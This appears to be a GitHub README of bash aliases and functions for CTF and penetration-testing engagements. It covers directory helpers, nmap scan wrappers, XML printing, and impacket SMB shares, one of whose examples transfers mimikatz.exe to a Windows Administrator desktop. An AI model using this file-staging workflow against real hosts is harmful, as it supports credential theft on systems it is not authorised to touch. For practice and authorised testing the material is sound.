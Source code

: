 # useful-bash-alias-function
Custom alias or functions that are helpful during CTF / engagement

# Return to previous directory

`alias back='cd $OLDPWD'`

## Usage:

```
kali@kali:~$ cd Downloads

kali@kali:Downloads$ back

kali@kali:~$
```

# Anonymous SMB server in the current directory

"kali" is the name of the share. Change that if you want it to be less obvious.

`alias smbserver-here='sudo impacket-smbserver kali . -smb2support'`

## Usage:

```
# On Kali
kali@kali:~$ smbserver-here
[SUDO] Password for kali:

# Connect to the share on windows machine (replace with your Kali IP):
> net use \\10.0.0.0\kali

# File transfer from Kali to Windows
# Or the other way around if you need to transfer from Windows to Kali
> copy \\10.0.0.0\kali\mimikatz.exe C:\Users\Administrator\Desktop\
```

# Authenticated SMB server in the current directory

Sometimes windows refuses to connect to anonymous SMB shares. Use this one instead then:

`smbserver-here-pass='sudo impacket-smbserver kali . -smb2support -username root -password toor'`

Change the username and password if you need to.

## Usage:

```
# On Kali
kali@kali:~$ smbserver-here-pass
[SUDO] Password for kali:

# Connect to the share on windows machine (replace with your Kali IP):
> net use \\10.0.0.0\kali /user:root toor

# The rest is the same
```

# mkdir and then immediately cd into it

```
mkcd () {
    mkdir -p -- "$1" &&
    cd -P -- "$1"
}
```

## Usage:

Provide the name of the new directory.

```
kali@kali:~$ mkcd newdir

kali@kali:newdir$
```

# Create a new CTF directory and immediately cd into it

During CTF I like to use the following directory structure, to store the various tools/loots:
- logs: outputs of various tools, e.g. gobuster, nmap
- screenshots: screenshots of websites, exploit steps, proof of CTF flags etc.
- payloads: self explanatory. Usually msfvenom outputs.
- exploits: self explanatory. Usually searchsploit/github scripts.
- downloads: stuff I downloaded from the host, e.g. host's FTP/SMB.
- loots: self explanatory. Usually hashes, tickets, keys, etc.

This function quickly creates a new directory, with the above subdirectories, and then cd into it

```
new-ctf-dir () {
    mkdir -p -- "$1" &&
    cd -P -- "$1" &&
    mkdir logs screenshots payloads exploits downloads loots
}
```

## Usage:

Provide the name of the new directory.

```
kali@kali:~$ new-ctf-dir newdir

kali@kali:newdir$
```

# quick-ish nmap scan all TCP ports with default scripts

```
nmap-fast-tcp-all () {
    if [ -f tcp-scan.nmap ]; then
        echo "Scan results already exist in current directory"
    else
        sudo nmap -vv -T4 --min-rate=800 -A -p- -oA tcp-scan $1
    fi
}
```

## Usage:

Supply the target IP

```
$ nmap-fast-tcp-all 127.0.0.1
```

# quick-ish nmap scan all UDP ports

```
nmap-fast-udp-all () {
    if [ -f udp-scan.nmap ]; then
        echo "Scan results already exist in current directory"
    else
        sudo nmap -vv -T4 --min-rate=1200 -p- -sU -oA udp-scan $1
    fi
}
```

## Usage:

Supply the target IP

```
$ nmap-fast-udp-all 127.0.0.1
```

# quick-ish nmap scan seletected UDP ports with default scripts

```
nmap-fast-udp-details () {
    if [ -f udp-details.nmap ]; then
        echo "Scan results already exist in current directory"
    else
        sudo nmap -vv -T4 --min-rate=1200 -sU -A -p $1 -oA udp-details $2
    fi
}
```

## Usage:

Supply the target ports and then the IP

```
$ nmap-fast-udp-details 53,123,137 127.0.0.1
```

# Pretty print XML with colours

```
pprint-xml-colours () {
    cat $1 | xmllint --format - | pygmentize -l xml
}
```

## Usage:

Supply the XML file name

```
$ pprint-xml-colours sitemap.xml
```

# Pretty print XML (without colours)

```
pprint-xml () {
    cat $1 | xmllint --format -
}
```

## Usage:

Supply the XML file name

```
$ pprint-xml sitemap.xml
```
